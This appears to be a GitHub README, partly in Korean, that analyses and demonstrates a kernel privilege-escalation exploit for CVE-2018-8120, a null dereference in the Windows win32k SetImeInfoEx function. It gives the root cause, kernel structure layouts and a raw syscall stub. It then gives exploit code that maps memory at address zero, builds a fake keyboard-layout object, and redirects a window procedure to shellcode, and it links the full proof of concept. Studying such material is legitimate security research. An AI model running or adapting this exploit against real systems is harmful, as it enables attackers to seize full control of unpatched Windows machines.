


# CVE-2018-8120 : win32k kernel privilege escalation exploit

Null dereference vulnerability exists in `SetImeInfoEx` function in `win32k`

Tested on Windows 7 x86 SP1


kASLR Bypass :

See : https://www.fuzzysecurity.com/tutorials/expDev/22.html


## Root Cause Analysis

### Overview

Windows `win32k.sys` 모듈의 `SetImeInfoEx` 함수에 Null pointer dereference 취약점이 존재하며, 유저 프로그램이 `0x0` 번지 주소에 유효한 fake object 를 생성해놓는 방식으로 code execution 이 가능한 취약점이다. 2018 년 5월에 패치가 완료되었다.


### Root Cause Analysis

`SetImeInfoEx` 함수에 인자로 전달되는 window station 오브젝트(`tagWINDOWSTATION`)는 `spklList` 필드(`+0x014`)가 유효한지 검사하지 않고 해당 필드가 가리키는 주소를 읽어들이기 때문에 문제가 발생한다.

`SetImeInfoEx`를 호출하는 함수는 NtUserSetImeInfoEx 함수이다. 해당 함수는 extended IME(Input Method Extension) Information 을 설정하는 시스템 콜로서, 현재 프로세스가 사용하는 키보드 레이아웃(Keyboard Layout, `KL`) 관련 정보를 설정한다
(※ 참고 : windows 에서 사용되는 `NT` prefix 는 userland 에서 호출할 수 있는 system call 함수임을 의미한다).


사용자 프로그램은 다음과 같이 `int 0x2e` 명령어를 통해 `NtUserSetImeInfoEx` 시스템 함수를 호출할 수 있으며, 함수 호출 구조는 다음과 같다.

```C
static
BOOL
__declspec(naked)
xxNtUserSetImeInfoEx(tagIMEINFOEX *imeInfoEx)
{
    __asm { mov eax, 1226h };
    __asm { lea edx, [esp + 4] };
    __asm { int 2eh };
    __asm { ret };
}
```


본 취약점에서 중요한 오브젝트 중 하나인 windows station 은 다음과 같이 정의되어 있다.

> "A session consists of all of the processes and other system objects that represent a single user’s logon session. These objects include all windows, desktops and windows stations. A desktop is a session-specific paged pool area and loads in the kernel memory space. This area is where session-private GUI objects are allocated from. **A windows station is basically a security boundary to contain desktops and processes.** So, a session may contain more
than one Windows Station and each windows station can have multiple
desktops."


정리하자면 windows station 오브젝트는 서로 관련있는 desktop 과 프로세스, 클립보드 등을 관리하는 오브젝트로서, 각각의 windows station 오브젝트는 `tagWINDOWSTATION` 구조체 형태로 커널 메모리 상에 존재한다. 그 구체적인 내용은 다음과 같다.

```
kd> dt win32k!tagWINDOWSTATION
   +0x000 dwSessionId      : Uint4B
   +0x004 rpwinstaNext     : Ptr32 tagWINDOWSTATION
   +0x008 rpdeskList       : Ptr32 tagDESKTOP
   +0x00c pTerm            : Ptr32 tagTERMINAL
   +0x010 dwWSF_Flags      : Uint4B
   +0x014 spklList         : Ptr32 tagKL
   +0x018 ptiClipLock      : Ptr32 tagTHREADINFO
   +0x01c ptiDrawingClipboard : Ptr32 tagTHREADINFO
   +0x020 spwndClipOpen    : Ptr32 tagWND
   +0x024 spwndClipViewer  : Ptr32 tagWND
   +0x028 spwndClipOwner   : Ptr32 tagWND
   +0x02c pClipBase        : Ptr32 tagCLIP
   +0x030 cNumClipFormats  : Uint4B
   +0x034 iClipSerialNumber : Uint4B
   +0x038 iClipSequenceNumber : Uint4B
   +0x03c spwndClipboardListener : Ptr32 tagWND
   +0x040 pGlobalAtomTable : Ptr32 Void
   +0x044 luidEndSession   : _LUID
   +0x04c luidUser         : _LUID
   +0x054 psidUser         : Ptr32 Void
```


`SetImeInfoEx` 함수는 `tagWINDOWSTATION`에서 `tagKL` 구조체의 연결리스트를 가리키는 포인터인 `spklList` 필드(`+0x014`)를 활용하여 리스트를 탐색한다. 



`spklList` 연결리스트의 각 노드를 구성하는 `tagKL` 구조체는 다음과 같은 구성을 가진다.

```
kd> dt win32k!tagKL
   +0x000 head             : _HEAD
   +0x008 pklNext          : Ptr32 tagKL
   +0x00c pklPrev          : Ptr32 tagKL
   +0x010 dwKL_Flags       : Uint4B
   +0x014 hkl              : Ptr32 HKL__
   +0x018 spkf             : Ptr32 tagKBDFILE
   +0x01c spkfPrimary      : Ptr32 tagKBDFILE
   +0x020 dwFontSigs       : Uint4B
   +0x024 iBaseCharset     : Uint4B
   +0x028 CodePage         : Uint2B
   +0x02a wchDiacritic     : Wchar
   +0x02c piiex            : Ptr32 tagIMEINFOEX
   +0x030 uNumTbl          : Uint4B
   +0x034 pspkfExtra       : Ptr32 Ptr32 tagKBDFILE
   +0x038 dwLastKbdType    : Uint4B
   +0x03c dwLastKbdSubType : Uint4B
   +0x040 dwKLID           : Uint4B
```

리스트 검색을 완료한 `SetImeInfoEx` 함수는 찾아낸 `tagKL` 구조체의 `piiex` 필드를 다음과 같이 `qmemcpy`의 인자로 활용한다.



`qmemcpy`의 dst address 인자가 `v4`이므로, `v4`값을 제어할 수 있는 공격자는 AAW primitive를 획득하게 된다.


### Triggering Bug

 본 취약점을 유발하기 위한 핵심은 `spklList` 필드가 NULL 값을 가지는 windows station 오브젝트가 `SetImeInfoEx` 함수의 인자로 전달되게끔 하는 것이다. 이를 위해 exploit 코드는 다음과 같은 과정을 따른다.

1. `spklList` 필드가 `NULL` 값을 가지는 windows station object를 생성한다(`CreateWindowStation`).

2. 새로운 프로세스를 생성한다.

3. 생성된 프로세스의 windows station 설정 (`SetProcessWindowStation`)한다. 이로써, 새롭게 생성된 프로세스는 `tagPROCESSINFO` 구조체의 `rpwinsta` 필드에 (1)에서 생성된 window station 오브젝트의 주소를 저장한다.

4. `NtUserSetImeInfoEx` 함수의 인자로 사용될 extended IME information 오브젝트를 생성한다.

5. 시스템 콜 `NtUserSetImeInfoEx` 함수를 (4)에서 생성한 오브젝트 주소를 인자로 하여 호출한다.

6. `NtUserSetImeInfoEx` 내부에서 (3)에서 설정된 `tagWINDOWSTATION` 구조체 주소가 `SetImeInfoEx` 함수의 인자로 전달됨

7. (3)에서 설정된 `tagWINDOWSTATION`의 `spklList` 필드가 `NULL`이므로, NULL pointer dereference 버그가 발생한다.


### Exploit

`0x0` 번지 주소에 fake obejct를 미리 구성해놓는다면, 앞서 설명한 `qmemcpy` 함수로 인해 arbitrary address writing primitive(AAW primitive)를 획득 가능하다.

우선 Null pointer derefernce 버그를 AAW 취약점으로 연결시키기 위한 방법으로, `NtAllocateVirtualMemory` 함수를 활용하여 `0x0` 주소에 다음과 같이 메모리 페이지를 할당한다.

```C++
    POCDEBUG_BREAK();
    if (!NT_SUCCESS(NtAllocateVirtualMemory(NtCurrentProcess(),
        &MemAddr,
        0,
        &MemSize,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_READWRITE)) || MemAddr != NULL)
    {
        std::cout << "[-]Memory alloc failed!" << std::endl;
        return 1;
    }
    ZeroMemory(MemAddr, MemSize);
```

더불어, kASLR을 우회하는 전형적인 방식 중 하나인 `HMValidateHandle` 방법을 사용한다. 그리고 취약점 유발 조건인 `NULL`값의 `spklList` 필드를 가진 `tagWINDOWSTATION`을 생성하기 위해 다음과 같이 관련 값들을 설정한다.

```C++
    sa.nLength              = sizeof(SECURITY_ATTRIBUTES);
    sa.lpSecurityDescriptor = NULL;
    sa.bInheritHandle       = TRUE;

    POCDEBUG_BREAK();
    wc.cbSize         = sizeof(WNDCLASSEXW);
    wc.lpfnWndProc    = DefWindowProcW;
    wc.cbWndExtra     = 0x100;
    wc.hInstance      = GetModuleHandleA(NULL);
    wc.lpszMenuName   = NULL;
    wc.lpszClassName  = L"WNDCLASSHUNT";
    RegisterClassExW(&wc);
    hwndHunt = CreateWindowExW(WS_EX_LEFT, L"WNDCLASSHUNT",
        NULL,
        WS_CLIPCHILDREN | WS_CLIPSIBLINGS | WS_POPUP, // no border
        0,
        0,
        0,
        0,
        NULL,
        NULL,
        GetModuleHandleA(NULL),
        NULL);
```

다음으로, 메모리의 `0x0` 번지에 가짜 `tagKL` 구조체를 위치시킨다. 해당 구조체는 `hkl` 필드가 `iiFaked.hkl`을 가리키게끔 하여 `SetImeInfoEx`의 리스트 순환 if문을 통과할 수 있게 값을 설정한다.

```C++
    DWORD *klFaked = (DWORD *)MemAddr;
    klFaked[0x02] = (DWORD)klFaked;     // tagKL->pklNext
    klFaked[0x03] = (DWORD)klFaked;     // tagKL->pklPrev
    klFaked[0x05] = (DWORD)iiFaked.hkl; // tagKL->hkl
    klFaked[0x0B] = (DWORD)pwndHunt;    // tagKL->piiex

    *(DWORD *)((PBYTE)&iiFaked + 0x14) |= (DWORD)0x40000;                   //->bServerSideWindowProc
    *(DWORD *)((PBYTE)&iiFaked + 0x60) = (DWORD)pvShellCode->pfnWindProc;   //->lpfnWndProc
```

이후, 다음과 같이 Triggering Bug에서 설명된 단계를 밟는다.

```C++
    POCDEBUG_BREAK();
    std::cout << "[*]CreateWindowStationW()" << std::endl;
    hWinStat = CreateWindowStationW(NULL, CWF_CREATE_ONLY, WINSTA_ALL_ACCESS, &sa);
    std::cout << "[*]SetProcessWindowStation()" << std::endl;
    SetProcessWindowStation(hWinStat);

    std::cout << "[+]hWinSta=" << (PVOID)hWinStat << std::endl;

    POCDEBUG_BREAK();
    std::cout << "[*]NtUserSetImeInfoEx()" << std::endl;
    bReturn = xxNtUserSetImeInfoEx(&iiFaked);
```

---

## References

[1] PoC Code: 
https://github.com/leeqwind/HolicPOC/tree/master/windows/win32k/CVE-2018-8120

[2] HMValidateHandle을 활용한 kASLR Bypass : 
https://securityintelligence.com/exploitation-vulnerabilities-allow-diverting-kernel-execution-flow-windows/


